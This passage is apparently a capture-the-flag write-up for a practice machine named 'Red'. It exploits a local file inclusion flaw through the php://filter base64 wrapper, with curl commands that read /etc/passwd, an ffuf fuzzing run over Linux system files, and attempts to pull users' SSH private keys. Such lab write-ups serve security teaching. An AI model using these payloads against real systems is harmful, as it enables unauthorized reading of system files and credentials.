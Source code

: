 First of all, the `sanitize_input` function did not recursively removes bad words

Second, `preg_match` just checks if the `page` parameter starts with alphabets

While the filter did efficiently prevented directory traversal, but I can specify full path with php filter to get any file content

```bash
┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ curl 'http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd' -s | base64 -d | grep sh$
root:x:0:0:root:/root:/bin/bash
blue:x:1000:1000:blue:/home/blue:/bin/bash
red:x:1001:1001::/home/red:/bin/bash
```

There are 3 users on target

Did some fuzzing for linux files

```bash
ffuf -c -w '/usr/share/payloadsallthethings/File Inclusion/Intruders/Linux-files.txt' -u "http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=FUZZ" -r -fw 2933 -fs 0 -o ffuf
```

```bash
┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ cat ffuf|jq .results[].url
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/etc/init.d/apache2"
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/etc/issue"
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/etc/apache2/apache2.conf"
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/proc/cmdline"
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/etc/group"
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/etc/hosts"
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd"
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/proc/mounts"
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/etc/apache2/ports.conf"
"http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/proc/version"
```

### Got info about passwords from bash_history

I could use more wordlists and do a loop to download all readable files, but I will look over files manually for this machine

```bash
┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ curl 'http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/home/red/.ssh/id_rsa' -s | base64 -d

┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ curl 'http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.ssh/id_rsa' -s | base64 -d

┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ fp=/proc/self/cmdline; curl "http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=${fp}" -s | base64 -d
/usr/sbin/apache2-kstart 

┌──(bravosec㉿fsociety)-[~/thm/Red]
└─$ curl "http://red.thm/index.php?page=php://filter/convert.base64-encode/resource=/etc/hosts" -s | base64 -d
127.0.0.1 localhost
127.0.1.1 red
192.168.0.1 redrules.thm


# The following lines are desirable for IPv6 capable hosts
```
